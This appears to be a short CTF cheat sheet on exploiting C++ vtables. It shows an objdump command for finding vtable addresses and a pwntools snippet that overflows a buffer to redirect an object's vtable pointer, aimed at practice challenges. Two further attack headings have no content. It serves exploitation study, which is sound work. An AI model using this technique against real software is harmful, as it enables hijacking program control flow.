 # C++

## get vtable
```
objdump -t ./vuln | c++filt | grep vtable
```

### Attack 1: override vtable pointer to other well-known vtable (31 santas-cookie, practice-6)
- works if no pie and well-known vtable position (or leak .data offset)
```python
# vuln has no pie so vtable is at well-known offset
# objdump -t ./vuln | c++filt | grep vtable
# currently there is this:
# 0000000000403db8  w    O .data.rel.ro	0000000000000018              vtable for Cookie
# we change to this:
# 0000000000403da0  w    O .data.rel.ro	0000000000000018              vtable for SantaSpecialCookie
vtable_SantaSpecialCookie = 0x0000000000403da0 + 16 # + 16 is the offset for decorate inside the vtable
payload = b'A'*64 + pwn.p64(vtable_SantaSpecialCookie)
conn.sendlineafter(b'Cookie decoration > ', payload)
```


### Attack 2: override vtable pointer to custom malicious vtable (32 calc)


### Attack 3: override function pointer in vtable



